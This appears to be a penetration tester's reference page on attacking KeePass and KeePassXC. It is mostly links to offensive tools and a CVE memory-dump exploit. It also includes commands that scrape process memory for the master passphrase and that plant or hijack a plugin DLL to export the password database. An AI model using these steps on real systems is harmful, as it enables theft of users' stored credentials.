 # KeePass

- [https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/](https://blog.harmj0y.net/redteaming/a-case-study-in-attacking-keepass/)
- [https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/)
- [https://habr.com/ru/post/346820/](https://habr.com/ru/post/346820/)




## KeePassXC

- [https://github.com/keepassxreboot/keepassxc](https://github.com/keepassxreboot/keepassxc)

```
PS > [System.Diagnostics.FileVersionInfo]::GetVersionInfo($(Get-Item "C:\Program Files\KeePassXC\KeePassXC.exe")).FileVersion
```



### Extract Passphrase from Memory

- [https://github.com/d3lb3/KeePass-the-Hash](https://github.com/d3lb3/KeePass-the-Hash)

```
PS > .\strings2.exe -pid (Get-Process KeePassXC) -a -wide > keepassxc_strings.txt
PS > gc .\keepassxc_strings.txt | Select-String -Pattern Passw0
PS > (gc .\keepassxc_strings.txt).length
PS > (gc .\keepassxc_strings.txt).length / 1mb
```




## DLL Hijacking

- [https://skr1x.github.io/keepass-dll-hijacking/](https://skr1x.github.io/keepass-dll-hijacking/)




## Extract Passphrase from Memory (< v2.53.1)

**CVE-2023-32784**

- [https://github.com/vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)
- [https://github.com/CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey)
- [https://www.forensicxlab.com/posts/keepass/](https://www.forensicxlab.com/posts/keepass/)




## Abusing KeePass Triggers (< v2.54)

- [https://d3lb3.github.io/keepass_triggers_arent_dead/](https://d3lb3.github.io/keepass_triggers_arent_dead/)
- [https://gist.github.com/d3lb3/fb6f5d82e47744f56117b350d94a6029](https://gist.github.com/d3lb3/fb6f5d82e47744f56117b350d94a6029)




## Tools



### KeeFarce

- [https://github.com/denandz/KeeFarce](https://github.com/denandz/KeeFarce)



### KeeFarceReborn

- [https://github.com/d3lb3/KeeFarceReborn](https://github.com/d3lb3/KeeFarceReborn)


#### Abusing the KeePass Plugin Cache

- [https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html)
- [https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin](https://github.com/d3lb3/KeeFarceReborn/tree/main/KeeFarceRebornPlugin)

Export DB by compiling and loading a malicious plugin (requires admin's privileges to place the `.plgx` file):

```
Cmd > KeePass.exe --plgx-create C:\KeeFarceReborn\KeeFarceRebornPlugin
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin.plgx "C:\Program Files\KeePass Password Safe 2\Plugins"
```

Export DB by hijacking a legit plugin DLL (requires an existent plugin in use):

```
Cmd > copy "C:\Program Files\KeePass Password Safe 2\KeePass.exe" .
Cmd > devenv /build Release KeeFarceRebornPlugin.sln
Cmd > copy C:\KeeFarceReborn\KeeFarceRebornPlugin\bin\Release\KeeFarceRebornPlugin.dll C:\Users\snovvcrash\AppData\Local\KeePass\PluginCache\3o7A46QKgc2z6Yz1JH88\LegitPlugin.dll
```



### KeePassHax

- [https://github.com/HoLLy-HaCKeR/KeePassHax](https://github.com/HoLLy-HaCKeR/KeePassHax)



### KeeThief

- [https://github.com/GhostPack/KeeThief](https://github.com/GhostPack/KeeThief)



### CrackMapExec

- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_discover.py)
- [https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py](https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/modules/keepass_trigger.py)



### KeePwn

- [https://github.com/Orange-Cyberdefense/KeePwn](https://github.com/Orange-Cyberdefense/KeePwn)



### ThievingFox

- [https://blog.slowerzs.net/posts/thievingfox/](https://blog.slowerzs.net/posts/thievingfox/)
- [https://github.com/Slowerzs/ThievingFox/tree/main/keepassfox](https://github.com/Slowerzs/ThievingFox/tree/main/keepassfox)
- [https://github.com/Slowerzs/ThievingFox/tree/main/keepassxcfox](https://github.com/Slowerzs/ThievingFox/tree/main/keepassxcfox)
